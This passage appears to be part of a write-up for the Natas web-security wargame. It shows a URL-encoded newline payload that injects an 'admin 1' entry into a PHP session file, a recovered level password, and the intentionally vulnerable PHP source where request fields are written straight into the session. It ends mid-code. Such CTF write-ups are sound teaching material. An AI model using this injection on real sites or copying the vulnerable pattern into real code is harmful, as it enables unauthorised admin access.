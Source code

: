 ```

name=admin%0Aadmin%201
``` 

After running this port request a session file for `PHPSESSID=sess` has been created with the extra admin 1 value.
If we load this PHPSESSID we will pass the admin check.


``` 
You are an admin. The credentials for the next level are:<br><pre>Username: natas21
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ</pre>
``` 

## natas22 

```php
<?

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
/* }}} */

session_start();
print_credentials();

?> 
``` 

```php
<?  

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
```